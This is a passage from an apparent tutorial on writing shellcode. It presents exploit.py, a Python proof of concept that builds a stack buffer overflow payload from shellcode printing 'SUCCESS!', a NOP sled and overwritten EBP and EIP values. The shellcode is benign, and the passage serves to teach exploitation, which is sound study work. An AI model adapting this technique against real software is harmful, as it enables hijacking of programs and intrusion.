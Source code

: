 ## Putting it all together

Now that we know how to modify the target program's control logic and we have code that we wish to run, we can now create our proof of concept exploit.

<strong>exploit.py</strong>
```python 
#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
EXTRA_PADDING = 8

# prints SUCCESS!
SHELLCODE = '\xba\x08\x08\x08\x08\xc1\xea\x18\x68\x45\x53\x53\x21\x68\x53\x55\x43\x43\x89\xe1\xbb\x01\x01\x01\x01\xc1\xeb\x18\xb8\x04\x04\x04\x04\xc1\xe8\x18\xcd\x80\xb8\x01\x01\x01\x01\xc1\xe8\x18\xcd\x80'

NOP_SIZE = BUFFER_SIZE - len(SHELLCODE) + EXTRA_PADDING

def main(buffer_address):

  # the memory right after the current stack frame is not used, we can use this for stack variables in the shellcode
  new_ebp = struct.pack('<I', buffer_address)

  # our shellcode is at the beginning of the buffer
  new_eip = struct.pack('<I', buffer_address)

  # build the string
  exploit = SHELLCODE +\
            '\x90' * NOP_SIZE + \
            new_ebp +\
            new_eip

  print(exploit)

if __name__ == '__main__':
  main(int(sys.argv[1], 16))

```

This program will take in the address of `buffer[64]` and creates the exploit string that runs our shellcode. The exploit string is made from our shellcode, a string of NOPs (\x90) for padding, the address that we will begin our new stack, and the address to the beginning of our shellcode.

![successful run of exploit.py](/assets/2017-12-6-shellcoding/success.png)
